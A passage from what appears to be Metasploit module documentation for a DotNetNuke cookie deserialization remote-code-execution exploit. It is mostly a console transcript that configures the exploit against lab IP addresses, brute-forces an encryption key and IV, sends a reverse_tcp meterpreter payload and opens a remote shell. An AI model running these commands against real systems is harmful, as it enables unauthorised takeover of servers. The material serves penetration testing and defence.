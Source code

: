   ```
  meterpreter >
  ``` 
### v9.2.0 - v9.2.1
  Here's the expected output:
  
  ```
  msf > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8085
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_CODE xR9oL8FP2eE_
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_PLAIN 0-3
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set ENCRYPTED true
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set SESSION_TOKEN 20FED393A44F86138D9089074C819880222A494155CEFAC6FEAF2B3B5204A227625654D87EA48ECB1E509664A7E8E32644BD363D3E6FD3A3273B245EF2D10B5E13D7912B
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Trying to determine DNN Version...
  [*] Checking version at /Documentation/License.txt ...
  [!] DNN Version Found: v9.2.0+ - Requires ENCRYPTED and SESSION_TOKEN. Setting target to 3 (v9.2.0 - v9.2.1). Site may also be 9.2.2 - try setting target 4 and supply a file of verification codes, or specify valid Key and IV values.
  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [+] 192.168.31.131:8085 - The target appears to be vulnerable.
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] Finding Key...
  [*] Searching at 641992.579 keys/s ...... 1.47% of keyspace complete.
  [+] KEY Found: 022BA242
  [+] IV Found: 0BCF9976
  [*] Total number of Keys tried: 633602
  [*] Time to crack: 0.987 seconds
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49971) at 2019-07-10 15:08:04 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```
### v9.2.2 - v9.3.0-RC
  Here's the expected output:
